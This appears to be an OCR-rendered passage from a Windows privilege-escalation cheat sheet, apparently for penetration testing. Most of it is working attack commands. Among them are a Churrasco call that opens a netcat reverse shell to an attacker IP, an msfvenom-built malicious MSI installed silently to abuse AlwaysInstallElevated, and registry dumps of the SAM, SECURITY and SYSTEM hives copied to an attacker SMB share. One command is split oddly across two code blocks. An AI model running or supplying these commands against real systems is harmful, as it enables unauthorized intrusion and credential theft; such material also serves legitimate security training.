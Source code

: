 Download [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) to the target machine and run the following command. Only applicable in Windows 10 and Server 2016/2019.

```nix
PrintSpoofer.exe -i -c cmd
```

For older versions such as Windows 2000/XP/Vista and Server 2003/2008. Download [Churrasco](https://github.com/Re4son/Churrasco) to target machine and run the following command.

```nix
churrasco.exe "nc.exe 10.10.10.10 5555 -e cmd"
```

### Abuse AlwaysInstallElevated privilege

Generate reverse shell using `msfvenom`. Host the reverse shell and download it from the target machine

```nix
msfvenom -p windows/x64/shell_reverse_tcp LHOST=127.0.0.1 lport=4444 -f 
```

```nix
msi -o reverse.msi
```

Execute the reverse shell by installing the malicious installer package. A netcat listener must be active on the attack machine.

```nix
msiexec /quiet /qn /i C:\\Windows\\Temp\\reverse.msi
```

### Abuse ****SeBackup / SeRestore to**** dump SAM, SECURITY, and SYSTEM hashes

Get a copy of the SYSTEM, SECURITY and SAM hives and download them back to your machine

```nix
REG SAVE HKLM\\SAM C:\\Temp\\sam.save
```

```nix
REG SAVE HKLM\\SECURITY C:\\Temp\\security.save
```

```nix
REG SAVE HKLM\\SYSTEM C:\\Temp\\system.save
```

Run a SMBServer and transfer files back to your machine

```nix
# Make sure you run `mkdir share` if the folder doesn't exists
impacket-smbserver -smb2support -username username -password password public share
```

Transfer copy of the SYSTEM, SECURITY and SAM hives to your machine

```nix
# 10.10.10.10 is our (attacker) IP
copy C:\\Temp\\sam.save \\\\10.10.10.10\\public
```
